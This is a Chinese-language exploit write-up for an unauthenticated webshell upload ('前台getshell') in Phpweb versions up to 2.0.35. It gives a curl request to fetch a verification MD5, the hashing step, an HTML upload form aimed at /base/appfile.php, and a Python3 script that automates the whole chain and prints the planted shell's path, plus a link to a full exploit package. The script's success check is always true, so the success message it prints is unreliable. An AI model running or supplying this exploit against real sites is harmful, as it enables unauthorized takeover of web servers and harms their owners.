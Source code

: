 Phpweb 前台getshell
===================

一、漏洞简介
------------

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php
/base/appborder.php

二、漏洞影响
------------

Phpweb\<=2.0.35

三、复现过程
------------

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

    curl "http://website/base/post.php" -H "act=appcode"

![](resource/Phpweb前台getshell/media/rId25.png)

    ac34c64cdb405eff881efc5476a64761 ##这个就是初始值

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!

    e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!

3.Getsehll exp:

    <html>
    <body>
    <form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
    <label for="file">Filename:</label>
    <input type="file" name="file" id="file" />
    <input type="text" name="t" value="a" />
    <input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
    <input type="text" name="act" value="upload" />
    <input type="text" name="r_size" value="14" />
    <br />
    <input type="submit" name="submit" value="getshell" />
    </form>
    </body>
    </html>

![](resource/Phpweb前台getshell/media/rId27.png)

然后...Getshell!

![](resource/Phpweb前台getshell/media/rId28.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

[http://www.0-sec.org/effect/source/bg/shell名称.php](http://www.0-sec.org/effect/source/bg/shell名称.php)

![](resource/Phpweb前台getshell/media/rId30.png)

### 工具编写

Python exp\[Python3\]:

    # -*- coding: UTF-8 -*- #
    import os
    import requests
    import hashlib

    bdlj = os.getcwd()
    headers = open(bdlj+"\headers.txt",'r')
    headerss = headers.read()
    print('\b')

    ur = input("请输入目标网址:")
    requrl =  ur + '/base/post.php'
    reqdata = {"act":"appcode"}
    r = requests.post(requrl,data=reqdata)
    cz=r.text[2:34]
    print ('初值:' + cz)

    cz=r.text[2:34]+"a"
    m = hashlib.md5()
    b = cz.encode(encoding='utf-8')
    m.update(b)
    zz = m.hexdigest()
    print ('终值:' + zz)

    infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
    outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
    for line in infile:
          outfile.write(line.replace('156as1f56safasfasfa', zz))
    infile.close()
    outfile.close()
    datas = open(bdlj+"\datah.txt",'r')
    datass = datas.read()

    gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
    gs.encoding = 'utf-8'
    print (gs.text)

    if {gs.text == "OK"}:
        print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
    else:
        print ("Getsehll失败!")

整包下载地址:<https://github.com/ianxtianxt/Phpweb-Getshell-py>

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](resource/Phpweb前台getshell/media/rId33.png)

参考链接
--------

> <https://m4tir.github.io/Phpweb-Reception-Getshell>
